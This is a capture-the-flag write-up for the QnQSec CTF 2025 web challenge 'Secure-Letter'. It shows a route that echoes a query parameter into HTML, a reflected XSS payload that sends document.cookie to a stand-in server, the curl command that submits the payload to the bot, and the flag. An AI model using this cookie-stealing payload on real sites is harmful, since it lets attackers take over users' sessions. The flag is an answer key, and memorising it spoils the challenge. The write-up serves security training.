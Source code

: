 # Secure-Letter — QnQSec CTF 2025

> **Room / Challenge:** Secure-Letter (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** QnQSec CTF 2025
- **Challenge:** Secure-Letter (web)
- **Target / URL:** `http://161.97.155.116:3001/`
- **Points:** `50`
- **Date:** `20-10-2025`

---

## Goal

We have to get the flag by using XSS to get the flag from bot.

## My Solution

This solution is written after the server has beed shut down, so I will use my mind. First let's examine the [source code](./secure-letter.7z), there is a route that we can use to inject Javascript code (XSS): `/letter` route

```javascript
app.get("/letter", (req, res) => {
  const content = req.query.content || "Write your letter here...";

  const letterHtml = `
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Your Letter</title>
    <style>
        body {
            font-family: 'Times New Roman', serif;
            margin: 0;
            padding: 40px;
            background: linear-gradient(to bottom right, #fef3c7, #fde68a);
            min-height: 100vh;
        }
        .letter-container {
            max-width: 600px;
            margin: 0 auto;
            background: white;
            padding: 40px;
            border-radius: 10px;
            box-shadow: 0 10px 30px rgba(0,0,0,0.1);
            border: 1px solid #e5e7eb;
        }
        .letter-header {
            text-align: center;
            margin-bottom: 30px;
            border-bottom: 2px solid #d1d5db;
            padding-bottom: 20px;
        }
        .letter-content {
            line-height: 1.8;
            font-size: 16px;
            color: #374151;
            white-space: pre-wrap;
        }
        .letter-signature {
            margin-top: 30px;
            text-align: right;
        }
    </style>
</head>
<body>
    <div class="letter-container">
        <div class="letter-header">
            <h2>📮 Personal Letter</h2>
        </div>
        <div class="letter-content">${content}</div>
        <div class="letter-signature">
            <p><em>Written with love ❤️</em></p>
        </div>
    </div>
</body>
</html>`;

  res.setHeader("Content-Type", "text/html; charset=utf-8");
  res.end(letterHtml);
});
```

The `content` value from query param is rendered into the page so we can inject Javascript to get the flag from bot cookie:

```javascript
const BOT_CONFIG = {
  baseUrl: process.env.WEB_URL || "http://localhost:3001",
  cookieName: "flag",
  cookieValue: process.env.FLAG || "FLAG{test_flag}",
};
```

I use this javascript code to get the cookie:

```javascript
fetch(`https://MY_SERVER/webhook?c=${document.cookie}`);
```

However the bot set the cookie to the domain `process.env.COOKIE_DOMAIN` or `localhost`:

```javascript
await page.setCookie({
  name: BOT_CONFIG.cookieName,
  value: BOT_CONFIG.cookieValue,
  domain: process.env.COOKIE_DOMAIN || "localhost",
  path: "/",
  httpOnly: false,
  secure: false,
});
```

So we have to use `http://web:3001/letter?content=<OUR_SCRIPT>`. The final exploit `curl` code (I encoded script to prevent error):

```bash
curl -v -X POST 'http://161.97.155.116:3001/api/report' \
  -H 'Content-Type: application/json' \
  -d '{"url":"http://web:3001/letter?content=%3Cscript%3Efetch(%60https://MY_SERVER/webhook?c=%24%7Bdocument.cookie%7D%60)%3C/script%3E"}'
```

Result:
![Guide image](./screenshots/1.png)

Flag: `QnQSec{bf_c4ch3_0ff_clobbering_on}`
